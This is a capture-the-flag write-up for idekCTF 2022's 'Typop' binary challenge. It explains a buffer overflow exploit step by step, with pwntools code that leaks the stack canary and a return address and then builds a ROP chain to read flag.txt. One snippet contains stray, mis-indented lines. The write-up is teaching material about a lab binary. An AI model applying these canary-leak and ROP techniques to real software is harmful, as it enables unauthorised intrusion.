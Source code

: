 #+TITLE: typop
#+AUTHOR: d0ntrash
* Pwn/Typop
** Challenge Info
   * Name: Typop
   * Author: JW#9396
   * Description: While writing the feedback form for idekCTF, JW made a small typo. It still compiled though, so what could possibly go wrong?
   * Link to files: [[https://idekctf-challenges.storage.googleapis.com/uploads/14d19059835451f069fc575d8b2b9818a1fc2e5c254fc1c36218e6220d29bdb1/typop.tar][idek2022]]
** Intro
   :PROPERTIES:
   :ID:       016f2d9c-2fde-478c-bb03-5f140e01edca
   :END:
   The challenge binary has only a few functions. In the ~main~ function not much happens besides ~getFeedback~ getting called in a ~while(true)~ loop:

   [[file:data/01/6f2d9c-2fde-478c-bb03-5f140e01edca/screenshot-20230116-135923.png]]

   The interesting parts are in the ~getFeedback~ function:

   [[file:data/01/6f2d9c-2fde-478c-bb03-5f140e01edca/screenshot-20230116-140358.png]]

   In both read functions there is a buffer overflow. However as we can see at the end of the function, the binary also uses stack canaries.
   So we can't just overflow the buffer to overwrite the return address because the ~__stack_chk_fail()~ check would fail.

*** Canary leak
    :PROPERTIES:
    :ID:       f1e4da43-eb15-4633-84cb-dac644906a77
    :END:
    To overflow the buffer without crashing the process we first need to leak the canary. Luckily, we can use the first
    ~read()~ call followed by the ~printf()~ call to leak the canary, then write the correct canary back using the second ~read()~ call.

    [[file:data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-142422.png]]

    In this case the canary is ~0x4f4bde881e0f0f00~ and comes directly after the input buffer. On Linux a stack canary always starts with a NULL byte.
    Since ~printf()~ always prints up to the next NULL byte we simply have to overflow the buffer by one byte to overwrite the NULL byte to print the
    stack canary followed by the ~rbp~ up to the next NULL byte.

    The following code snippet does exactly that:
    #+begin_src python
    r.recvuntil(b"Do you want to complete a survey?")
    r.sendline(b"y")
    r.recvuntil("Do you like ctf?\n")
    r.sendline(b'a'*offset_to_canary)
    r.recvline() # recv input to new line
    leak = r.recvline()
    canary = int.from_bytes(b'\x00' + leak[:7], 'little')
    rbp = int.from_bytes(leak[7:13], 'little')
    print(f'rbp:          {hex(rbp)}')
    print(f'canary:       {hex(canary)}')

        r = process([exe.path])
    return r
    #+end_src

    After the overflow the stack looks like this:
    [[file:data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-143231.png]]

    Now that we know the canary, we can use the second ~read()~ call to write it back to the stack.

    #+begin_src python
    r.recvuntil(b'Aww :( Can you provide some extra feedback?')
    r.sendline(b'a' * offset_to_canary + p64(canary))
    #+end_src

    When the ~getFeedback~ function gets called the second time we can use the information leak to leak the return address from
    the stack which points to the main function. From this point, the offset to the base address
    of the binary can be calculated which we can use to build our ROP chain.

    #+begin_src python
    r.recvuntil(b"Do you want to complete a survey?")
    r.sendline(b"y")
    r.recvuntil("Do you like ctf?\n")
    # leak return address to main
    r.sendline(b'a' * offset_to_ret)
    r.recvline() # recv input to new line
    ret_leak = int.from_bytes(r.recvline()[:6], 'little')
    # set base address
    exe.address = ret_leak - 0x1447
    #+end_src

    From here we could try to leak a libc address to ret2libc. In this case however, the binary contains a ~win~ function we can use
    which reads a file and prints its content:

    [[file:data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-150202.png]]

    Unfortunately, just overwriting the return address with the win address wont work since the ~win~ function takes 3 characters of the
    filename as parameters. The parameters are passed via the registers ~rdi~, ~rsi~ and ~rdx~. The registers ~rsi~ and ~rdi~ can be set
    by using simple ROP gadgets. For ~rdx~ however I did not find any useful gadgets.

    So instead of calling the entry point of the ~win~ function we can also call it with an offset to the point where ~fopen~ gets called.
    Therefor we have to set the parameters for ~fopen~ befor jumping there. ~fopen~ takes a pointer to the filename and a pointer to a string containing
    the mode. Since we only need 2 parameters which get passed via ~rdi~ and ~rsi~ we can achieve this using our already found gadgets:

    #+begin_src python
    fopen = p64(exe.address + 0x12ba)
    pop_rdi = p64(exe.address + 0x14d3)
    pop_rsi_r15 = p64(exe.address + 0x14d1)
    read_mode_str = p64(exe.address + 0x2008)
    r.sendline(b'a' * offset_to_canary + p64(canary)
               # Overwrite rbp
               # Set offset big enough so fgets does not fuck up the stack
               + p64(rbp - 0x100)
               # ROP Chain:
               # pop pointer to 'flag.txt' string into rdi
               + pop_rdi + p64(rbp+0x28)
               # pop pointer to 'r' string into rsi
               + pop_rsi_r15 + read_mode_str + p64(0xdeadbeef)
               # return directly to fopen call in win function
               + fopen
               # filename string which will be used for fopen
               + b'flag.txt\x00\x00')
    #+end_src

    This will read the flag from the ~flag.txt~ file and print it to stdout.

    [[file:data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-152138.png]]
